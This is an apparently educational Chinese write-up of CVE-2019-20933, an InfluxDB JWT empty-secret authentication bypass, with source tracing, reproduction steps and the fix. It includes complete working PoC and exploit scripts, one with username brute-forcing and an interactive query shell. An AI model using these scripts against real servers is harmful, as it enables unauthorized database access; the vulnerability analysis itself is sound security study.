






# CVE-2019-20933  CWE-287 InfluxDB JWT 未授权访问

## 漏洞背景

- **InfluxDB** ：一个开源的时间序列数据库，它允许用户存储和检索时间序列数据。其中query 是执行数据库操作的一种方式，是查询语句，它用于从数据库中检索数据、修改数据或执行其他数据库操作。

- **JWT（JSON Web Tokens）**:一种开放标准（RFC 7519），它定义了一种紧凑且自包含的方式，用于在各方之间以JSON对象的形式安全地传输信息。每个token都是经过数字签名的，因此可以验证发送者的身份并确保数据在传输过程中未被篡改。

  签名生成：当我们生成`JWT`令牌时，系统会使用一个密钥通过指定算法对令牌的内容（称为“`payload`”）进行签名。`JWT`令牌包括Header（指示签名算法）、`Payload`（包含了用户的信息、有效期、角色等数据）、`Signature`（利用 `Header` 和 `Payload` 通过签名算法计算出来的）。

  签名验证：在接收到一个`JWT`令牌时，系统会根据令牌中的签名部分来验证令牌的完整性和真实性。从JWT中分离出` Header`、`Payload` 和 `Signature`。利用`h.Config.SharedSecret`作为密钥和签名算法对`Header`和`Payload`重新计算签名，之后与`Signature`进行签名比较。

## 漏洞原理

influxdb 是一款著名的时序数据库，其使用 jwt 作为鉴权方式。在用户开启了认证， 但未设置参数`shared-secret`的情况下，jwt 的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在 influxdb 中执行 SQL 语句。

在1.7.6版本之前，InfluxDB 的配置文件中 JWT 的认证密钥`shared-secret`没有设置默认值，这意味着如果用户在配置时没有明确指定这个值，它就会默认为空字符串。InfluxDB 的 JWT 认证机制就无法正常工作，因为 JWT 令牌的验证过程需要使用这个密钥来验证令牌的签名。这个设计上的疏漏导致了 CVE-2019-20933 漏洞的存在。

攻击者可以构造一个没有有效签名的 JWT 令牌，从而绕过认证系统，以任意用户身份执行操作，包括但不限于查询、写入数据等。

## 漏洞定位

1、定位至在处理HTTP请求之前对用户进行认证的代码文件 **influxdb-1.6.6\services\httpd\handler.go** ，其中第 **1374** 行代码，这段代码是 InfluxDB HTTP 服务中的一个认证中间件`authenticate`。它的目的是在处理HTTP请求之前对用户进行认证。

- **无需认证的情况**： 如果`requireAuthentication`为`false`，则不执行认证，直接调用`inner`函数处理请求。

- **认证过程**： 如果需要认证（`requireAuthentication`为`true`），则执行以下步骤：

  a. **解析认证信息**： 使用`parseCredentials`函数从HTTP请求`r`中解析认证信息，得到`creds`。

  b. **基本认证**： 如果`creds.Method`是`UserAuthentication`，则检查用户名是否存在，然后使用`h.MetaClient.Authenticate`方法进行认证。如果认证失败，返回401 Unauthorized错误。

  c. **Bearer认证**： 如果`creds.Method`是`BearerAuthentication`，则执行以下步骤：

  - 定义`keyLookupFn`函数，用于从`JWT`令牌中提取签名密钥。这里检查令牌的签名方法是否为`HMAC`，并返回`h.Config.SharedSecret`作为签名验证的密钥。
  - 使用`jwt.Parse`函数和`keyLookupFn`解析和验证`JWT`令牌。如果解析失败或令牌无效，返回`401 Unauthorized`错误。
  - 从令牌的`claims`中提取用户名，并在元数据存储中查找对应的用户信息。如果用户不存在或令牌缺少必要的`claims`，返回`401 Unauthorized`错误。

- **调用内层处理函数**： 如果认证成功，调用`inner`函数，并传入用户信息`user`。

```go
//influxdb-1.6.6\services\httpd\handler.go
func authenticate(inner func(http.ResponseWriter, *http.Request, meta.User), h *Handler, requireAuthentication bool) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// Return early if we are not authenticating
		if !requireAuthentication {
			inner(w, r, nil)
			return
		}
		var user meta.User

		// TODO corylanou: never allow this in the future without users
		if requireAuthentication && h.MetaClient.AdminUserExists() {
			creds, err := parseCredentials(r)
			if err != nil {
				atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
				h.httpError(w, err.Error(), http.StatusUnauthorized)
				return
			}

			switch creds.Method {
			case UserAuthentication:
				if creds.Username == "" {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "username required", http.StatusUnauthorized)
					return
				}

				user, err = h.MetaClient.Authenticate(creds.Username, creds.Password)
				if err != nil {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "authorization failed", http.StatusUnauthorized)
					return
				}
			case BearerAuthentication:
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}

				// Parse and validate the token.
				token, err := jwt.Parse(creds.Token, keyLookupFn)
				if err != nil {
					h.httpError(w, err.Error(), http.StatusUnauthorized)
					return
				} else if !token.Valid {
					h.httpError(w, "invalid token", http.StatusUnauthorized)
					return
				}

				claims, ok := token.Claims.(jwt.MapClaims)
				if !ok {
					h.httpError(w, "problem authenticating token", http.StatusInternalServerError)
					h.Logger.Info("Could not assert JWT token claims as jwt.MapClaims")
					return
				}

				// Make sure an expiration was set on the token.
				if exp, ok := claims["exp"].(float64); !ok || exp <= 0.0 {
					h.httpError(w, "token expiration required", http.StatusUnauthorized)
					return
				}

```

2、定位至解析jwt令牌的代码，第 **1406** 行，其中`keyLookupFn`函数，用于从JWT令牌中提取签名密钥。这里检查令牌的签名方法是否为`HMAC`，并返回`h.Config.SharedSecret`作为签名验证的密钥。接下来跟踪`h.Config.SharedSecret`。

```go
//influxdb-1.6.6\services\httpd\handler.go
case BearerAuthentication:
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}
```

3、在handler.go文件的第 **126** 行，`NewHandler` 函数创建并返回一个新的 `Handler` 实例，而`h` 是一个指向名为`Handler`的结构体的实例的指针，继续分析`Handler`的结构体。

```go
//influxdb-1.6.6\services\httpd\handler.go
func NewHandler(c Config) *Handler {
	h := &Handler{
		mux:            pat.New(),
		Config:         &c,
		Logger:         zap.NewNop(),
		CLFLogger:      log.New(os.Stderr, "[httpd] ", 0),
		Store:          storage.NewStore(),
		stats:          &Statistics{},
		requestTracker: NewRequestTracker(),
	}
    // ... ...
    return h
}
```

4、在handler.go文件的第 **80** 行，找到`Handler`的结构体的定义，包含了处理 HTTP 请求所需的方法和字段。它能够处理客户端的 HTTP 请求，并返回一个 HTTP 响应。在 `Handler` 结构体中，有一个 `Config` 字段，该字段是 `Config` 结构体的指针。

```go
//influxdb-1.6.6\services\httpd\handler.go
// Handler represents an HTTP handler for the InfluxDB server.
type Handler struct {
	//... ...
	Config    *Config
	//... ...
}
```

5、定位至 **influxdb-1.6.6\services\httpd\config.go** 文件，第 **29** 行，找到`Config` 结构体的定义，其中定义了`string`类型变量`SharedSecret`。这里的`toml:"shared-secret"`标签告诉解析器，这个字段的值应该从配置文件中的`shared-secret`项读取。

```go
// Config represents a configuration for a HTTP service.
type Config struct {
	// ... ...
	SharedSecret            string        `toml:"shared-secret"`
	//... ...
}
```

6、定位至配置文件 **influxdb-1.6.6\etc\influxdb\influxdb.conf** ，第 **265** 行`shared-secret`默认被定义为空，也就是`h.Config.SharedSecret`是被设置为空的。

```
  //influxdb-1.6.6\etc\influxdb\influxdb.conf
  # The JWT auth shared secret to validate requests using JSON web tokens.
  # shared-secret = ""
```

所以只需要在构造`JWT`令牌时确保 `Payload` 为空，并保证时间戳`exp`未过期即可通过签名验证。

## 影响版本

influxDB <1.7.6

## 环境搭建

启动docker环境， InfluxDB 版本为 1.6.6


## 漏洞复现

> 1. 通过令 Payload 为空，并设置时间戳 exp 未过期来构造一个没有有效签名的 JWT 令牌
> 2. 使用构造的 JWT 令牌发送带有 sql 语句的数据包访问 query 接口，成功执行 sql 语句

这里目标ip为192.168.233.133

1、直接输入IP和端口号无法访问。


2、访问`/query`查询功能，提示需要登录验证。


3、抓包，发现响应头中带有 X-Influxdb-Version 标志头，即数据库版本信息 1.6.6，说明存在漏洞。


​	或者访问`/debug/vars`路径来获取数据库版本信息。


4、由于 Ifluxdb 采用的是 jwt 加密方式，我们只需要在 jwt 加密解密网站上进行编码加入到数据包中即可绕过授权进行查询。

​	使用在线 JWT 生成工具（如 https://jwt.io/）来构造一个 JWT 令牌。按以下规则生成生成令牌：（1）将算法（alg）设置为 HS256；（2）类型（typ）设置为 JWT；（3）在负载（payload）中指定用户名（username）为 admin ；（4）设置过期时间，即将时间戳（exp）改成大于当前时效的时间（时间戳用来记录jwt口令失效时间），这里设为2050年，时间戳为2549537443。（5）将密码置空。




5、右键选择第6步所抓的包，选择 repeater。



6、修改请求方法为POST，在`Authorizatio`字段添加生成的 JWT 令牌，并添加`Content-Type: application/x-www-form-urlencoded`字段用来指示资源的 MIME 类型，最后加入添加 POST 请求键值对：`db=sample&q=show+users`，发送带有这个 jwt token的数据包。查看 Response 中的回显，成功查询到结果：用户名为 admin，true 代表 admin 用户具有管理员权限。

因为是在 query 界面构造 POST 请求包，在数据包后面加上查询语句，如果成功绕过认证，就相当于在请求`http://192.168.233.133:8086/query?db=sample&q=SHOW+USERS`。



7、修改请求语句为`q=show+database`，可以得到结果：两个数据库为`sample`和`_internal`。



## POC分析

执行 POC 代码：

```cmd
python CVE-2019-20933-POC.py --host 127.0.0.1 "SHOW USERS"
```

得到查询结果，证明存在漏洞



原理是根据用户输入的目标信息来构造 JWT 数据包并发送，获得响应后打印输出到命令行，如果成功获得结果，则代表存在漏洞。

```python
#!/usr/bin/env python3
import time
import urllib
import argparse
import requests as requests
import jwt
from pprint import pprint


class Query:
    def __init__(self) -> None:
        pass

    #命令行输入目标IP，端口，用户名，数据库名以及查询语句
    def parse_args(self):
        parser = argparse.ArgumentParser(
            description="A simple, silly, over-the-top influxdb client made in Python"
        )
        parser.add_argument(
            "--host",
            default="127.0.0.1",
            help="The target IP. (default: localhost)",
        )
        parser.add_argument(
            "--port", "-p", default="8086", help="The target port. (default: 8086) "
        )
        parser.add_argument(
            "--user", default="admin", help="The target username. (default: admin)"
        )
        parser.add_argument("--db", default="sample", help="The database to use.")
        parser.add_argument(
            "query",
            default="SHOW USERS",
            help="The query to execute. default: SHOW USERS",
        )
        args = parser.parse_args()
        self.args = args

    #构造jwt令牌，修改exp时间戳无效
    def generate_token(self):
        exp = int(time.time())
        exp = exp + 2628000  # 1 month

        payload = {"username": self.args.user, "exp": exp}

        return jwt.encode(payload, "", algorithm="HS256")

    #向目标发送数据包
    def generate_request(self):
        token = self.generate_token()
        try:
            headers = {
                "Authorization": f"Bearer {token}",
            }
        except:
            token = token.decode("utf-8")
            headers = {
                "Authorization": f"Bearer {token}",
            }

        # Send request
        query = urllib.parse.quote_plus(self.args.query)
        response = requests.get(
            f"http://{self.args.host}:{self.args.port}/query?db={self.args.db}&q={query}",
            headers=headers,
        )
        return response.json()

    #获得response结果
    def exploit(self):
        result = self.generate_request()
        pprint(result)

if __name__ == "__main__":
    query = Query()
    query.parse_args()
    query.exploit()
```

## EXP分析

执行 EXP 文件，输入目标相关信息
```cmd
python CVE-2019-20933-EXP.py
```

成功得到 sql 命令行，选择 init_db 数据库，检索数据库中的所有测量（表），返回一个名为weather的测量，成功执行



原理是根据用户提供的目标信息，再读取提供的用户名列表并尝试为每个用户名生成 JWT 数据包并发送，如果能成功访问数据库，则该用户名有效，进而进入交互式 shell 。再通过用户在 shell 中输入不同的查询语句生成不同的 JWT 数据包，来利用漏洞获得更多数据库的信息。

```python
#!/bin/env python

import json
import pathlib
import time
import urllib
import requests as requests
import jwt
from termcolor import colored

def bruteforceUser(filename, host, port):
    print()
    print("Bruteforcing usernames ...")
    #读取用户名列表文件，尝试每个用户名生成JWT
    with open(filename) as f:
        for line in f:
            line = line.replace("\n", "")
            exp = int(time.time())
            exp = exp + 2.628 * 10 ** 6
            # Generation JWT
            payload = {
                "username": line,
                "exp": exp
            }

            #使用生成的JWT发送查询请求，检查是否能够成功访问数据库,和poc类似
            token = jwt.encode(payload, "", algorithm="HS256")
            query = "SHOW DATABASES"
            response = makeQuery(token, 'dummy', host, port, query)
            response = json.loads(response)
            #如果发现有效的用户名，返回该用户名并退出函数
            if "error" in response.keys():
                if "signature is invalid" in response['error']:
                    print(colored("ERROR: Host not vulnerable !!!", "red"))
                    print(colored("ERROR: " + response['error'] + "", "red"))
                    exit(1)
                if "user not found" in response['error']:
                    print("[{}] {}".format(colored("x", "red"), line))
            else:
                print("[{}] {}".format(colored("v", "green"), line))
                print()
                username = line
                return username

    print(colored("ERROR: no valid username found !!!", "red"))
    exit(1)

def makeQuery(token, db, host, port, query):
    #构造HTTP请求头
    try:
        headers = {
            'Authorization': 'Bearer ' + token,
        }
    except:
        token = token.decode("utf-8")
        headers = {
            'Authorization': 'Bearer ' + token,
        }

    # Send request
    query = urllib.parse.quote_plus(query)
    response = requests.get('http://' + host + ':' + str(port) + '/query?db=' + db + '&q=' + query, headers=headers)
    return response.text

def exploit():
    # imput data
    print()
    try:
        host = input("Host (default: localhost): ")
    except KeyboardInterrupt:
        return

    if host == "":
        host = "127.0.0.1"

    try:
        port = input("Port (default: 8086): ")
    except KeyboardInterrupt:
        return
    if port == "":
        port = 8086

    try:
        username = input("Username <OR> path to username file (default: users.txt): ")
    except KeyboardInterrupt:
        return

    if username == "":
        username = "users.txt"

    # check if username is a valid file to start bruteforce
    file = pathlib.Path(username)
    if file.exists():
        username = bruteforceUser(username, host, port)

    exp = int(time.time())
    exp = exp + 2.628 * 10 ** 6  # Aggiungo un mese

    # Generation JWT
    payload = {
        "username": username,
        "exp": exp
    }

    token = jwt.encode(payload, "", algorithm="HS256")
    #print("Token: {}".format(token))
    query = "SHOW DATABASES"
    response = makeQuery(token, 'dummy', host, port, query)
    response = json.loads(response)

    if "results" in response.keys():
        print(colored("Host vulnerable !!!", "green"))
    else:
        print(colored("ERROR: Host not vulnerable !!!", "red"))
        print(colored("ERROR: "+response['error']+"", "red"))
        return
    
    # Get databases list
    dblist = [db[0] for db in response['results'][0]['series'][0]['values']]

    while True:
        print()
        print("Databases:")
        print()
        for (i, db) in enumerate(dblist):
            print("{}) {}".format(i + 1, db))

        print()
        print(".quit to exit")


        try:
            db = input("[{}@{}] Database: ".format(colored(username, "red"), colored(host, "yellow")))
        except KeyboardInterrupt:
            print()
            print("~ Bye!")
            break

        if db in ['.exit', '.quit', '.back']:
            return
        if db == "":
            continue

        try:
            db = dblist[int(db) - 1]
        except IndexError as e:
            # Prompt again if database index if not in range
            continue
        except Exception as e:
            # Check if database exists if its a string
            if db.strip() == "":
                continue
            if db not in dblist:
                print(colored("[Error] ", "red") + "No such database: \"" + colored(db, "yellow") + "\"")
                continue
            pass

        print()
        print("Starting InfluxDB shell - .back to go back")
        while True:
            try:
                query = input("[{}@{}/{}] $ ".format(colored(username, "red"), colored(host, "yellow"), colored(db, "blue")))
            except KeyboardInterrupt:
                break

            if query.strip() == "":
                continue

            if query in ['.exit', '.quit', '.back']:
                break

            response = makeQuery(token, db, host, port, query)
            response = json.loads(response)
            print(json.dumps(response, indent=4, sort_keys=True))


if __name__ == '__main__':
    print(colored("""
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  """, 'green'))
    print(colored(" - using CVE-2019-20933", "yellow"))

    exploit()
```

## 漏洞修复

增加了判断`h.Config.SharedSecret`是否为空的语句

```go
case BearerAuthentication:
				if h.Config.SharedSecret == "" {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "bearer auth disabled", http.StatusUnauthorized)
					return
				}
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}
```

## 参考连接

[漏洞复现](https://www.cnblogs.com/re8sd/p/17903732.html)

[漏洞定位](https://github.com/influxdata/influxdb/issues/12927)

[漏洞修复](https://github.com/influxdata/influxdb/pull/13088)